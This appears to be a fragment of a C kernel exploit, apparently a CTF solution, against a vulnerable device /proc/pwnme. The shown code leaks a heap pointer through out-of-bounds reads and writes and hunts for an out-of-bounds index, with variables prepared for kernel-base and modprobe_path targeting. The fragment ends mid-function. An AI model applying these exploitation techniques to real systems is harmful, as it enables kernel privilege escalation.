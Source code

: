 ```c
unsigned char buff[DUMPSIZE];
unsigned char buff2[DUMPSIZE];
unsigned char temp[16];
uint64_t leak1, kbase, kbase2, modprobe_path, gs;

	gs = 0;
	if (argc>1)
	{
		gs = strtoull(argv[1],NULL,16);
		printf("gs = 0x%llx\n", gs);
	}
	else
	{
		printf("give me gs register value as argument please...\n");
		exit(1337);
	}
	// open device
	devfd = open("/proc/pwnme", O_RDWR);
	if (devfd < 0) {
		perror("open");
		exit(EXIT_FAILURE);
	}

	// one block is already allocated by poc
	for (i=1; i<2; i++)
		addblock(TOTAL_BANKS * 16);
	// use index 2 oob to 
	changeindex(2);
	// read oob data leak
	read(devfd,buff,32);
    leak1 = *(uint64_t *)(buff+8);
    printf("leak heap = 0x%llx\n", leak1);

	for (i=2; i<TOTAL_BANKS; i++)
	{
		addblock(TOTAL_BANKS * 16);
	}

	memset(buff2,0,DUMPSIZE);		// clear buff2 first
	for (i=0; i<TOTAL_BANKS; i++)
	{
		*(uint64_t *)buff = leak1;
		*(uint64_t *)(buff+8) = 0xdeadbeef;
		changeindex(i);
		// try to write oob chunk
		write(devfd,buff,16);
		// change index to oob chunk
		changeindex(TOTAL_BANKS);
		memset(temp,0,16);		// clear temp[]
		read(devfd,temp,16);
		if (memcmp(temp, buff2, 16) != 0)
		{
			oobindex = i;
			printf("Index pointing to OOB found --> %d\n", i);
			break;
		}
		// clear uneeded
		write(devfd,buff,16);;
	}
	if (i==TOTAL_BANKS)
	{
		puts("Index pointing to OOB not found.");
		exit(0);
```